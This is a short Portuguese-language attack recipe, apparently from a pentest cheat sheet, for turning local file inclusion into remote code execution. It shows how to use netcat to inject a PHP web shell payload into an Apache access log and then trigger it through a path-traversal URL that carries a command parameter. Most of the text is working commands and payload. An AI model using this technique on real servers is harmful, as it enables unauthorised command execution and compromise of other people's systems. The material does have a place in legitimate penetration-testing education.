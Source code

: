 # Log Injection (LFI para RCE)

Em alguns casos é possível incluir comandos no log da aplicação que serão executados posteriormente.
Num exemplo prático identificamos que o servidor apache gera logs das conexões, dessa forma podemos enviar nosso payload em PHP realizando uma conexão via netcat.

`nc -v ALVO 80 -C`

Após conexão envie o payload:
`<?php system($_GET['pwn']); ?>`

Agora ao acessar o log, inclua o parâmetro `pwn` criado com o payload anteriormente e envie o comando para o servidor.
``http://www.alvo.com.br/info.php?p=/../../../../var/log/apache2/access.log&pwn=whoami``
